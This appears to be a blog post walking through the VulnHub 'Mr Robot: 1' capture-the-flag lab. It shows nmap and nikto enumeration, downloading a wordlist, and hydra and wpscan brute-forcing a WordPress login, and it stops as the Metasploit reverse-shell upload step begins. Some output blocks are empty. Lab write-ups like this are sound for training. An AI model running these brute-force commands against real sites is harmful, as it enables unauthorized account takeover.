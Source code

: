 ```yaml
---
layout: post
title: "Mr. Robot"
date: 2022-04-10 20:50:57 +0200
categories: jekyll update
image: /assets/images/elliot.jpg
---
```


# Mr Robot: 1

[[Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/)] has 3 flags to find.

## Preparation

The virtual machines are placed onto the same isolated internal network where they can only communicate with each other.

On the isolated internal network, a VirtualBox DHCP server assigns IP addresses to the machines:

```cmd
vboxmanage dhcpserver add --network=intnet --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```

The **Kali** machine received the IP address `10.38.1.110`.

Launching **Mr. Robot**, we're presented with a login screen that cannot be bypassed as the login credentials aren't known.

## Enumeration

**Nmap** can be used to discover the vulnerable machine on the network:

```sh
kali@kali$ nmap -sS -T4 10.38.1.110-120
```

```

```

**Nmap** found the vulnerable machine and reported it with the IP address `10.38.1.111` and with TCP ports `80` (http) and `443` (https) open.

Looking up `10.38.1.111` in a web browser, we're presented with the clone of the promotion website of the Mr. Robot TV series.

## 1st Flag

**Nikto** can be used to gather further information about the web server.

```

```

1. The server leaks inodes via ETags and a header has been found with file **/robots.txt**

```

```

2. The server is running **Wordpress**

```

```

> Note<br>
> A [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro) file tells search engine crawlers which URLs the crawler can access on your site.
> This is used mainly to avoid overloading your site with requests; it is not a mechanism for keeping a web page out of Google.

**robots.txt** indicates that the server doesn't have an user agent but it has two files:

- fsocity.dic
- key-1-of-3.txt

**wget** can be used to download the files:

```sh
kali@kali$ wget 10.38.1.111/fsocity.dic
kali@kali$ wget 10.38.1.111/key-1-of-3.txt
```

```sh
kali@kali$ cat key-1-of-3.txt

```

## 2nd Flag

As SSL isn't enabled on the Wordpress login page, it may be bruteforced with the downloaded dictionary file.

`fsocity.dic` contains duplicated entries that should be removed.

```sh
kali@kali$ cat fsocity.dic | sort -u | uniq > wordlist.dic
```

The word count of the dictionary has decreased from `858160` to `11451`.

```
kali@kali$ wc -l fsocity.dic
858160 fsocity.dic
```

```
kali@kali$ wc -l wordlist.dic
11451 wordlist.dic
```

To start the bruteforce attack, we need to intercept an [http POST request](<https://en.wikipedia.org/wiki/POST_(HTTP)>) in [Burp Suite](https://portswigger.net/burp).

To do that, a manual proxy must be configured in the browser and Burp Suite should have the same Proxy Listener set:

- HTTP Proxy: `127.0.0.1`
- Port: `8080`

In the intercepted POST request - that has been sent to the server - we're looking for the `log`, `pwd`, and the `wp-submit` fields.

**hydra** can be used to guess the username:

```sh
kali@kali$ hydra -V -L fsocity.dic -p 123 10.38.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

- `-V` — Verbose
- `-L fsocity.dic` — Define dictionary
- `-p 123` — Random unique password
- `10.38.1.111` — IP of the vulnerable machine
- `http-post-form` — An http POST form is being bruteforced
- `/wp-login.php` — Path where the form is located
- `log=^USER^&pwd=^PASS&wp-submit=Log+In` — POST parameters to send, including placeholders
- `F=Invalid Username` — Consider an attempt as failure if the response contains the text "Invalid Username".

**hydra** has found 3 possible usernames:

```sh
[80][http-post-form] host: 10.38.1.111 login: elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: Elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: ELLIOT password: 123
```

**wpscan** can be used to find additional WordPress vulnerabilities and to bruteforce the password using the word list.

```sh
kali@kali$ wpscan --url 10.28.1.111 --passwords /home/kali/mrrobot/wordlist.dic --usernames Elliot
```

**wpscan** has found several outdated plugins and one valid username - password pair.

```sh
[+] performing password attach on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot - / ER28-0652
All Found
Progress Time: 00:00:19 <========================================================================

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

**Metasploit** [WordPress Admin Shell Upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module creates a small WordPress plugin that connects back to the attacking machine and spawns a reverse shell.

```sh
kali@kali$ msfconsole
```
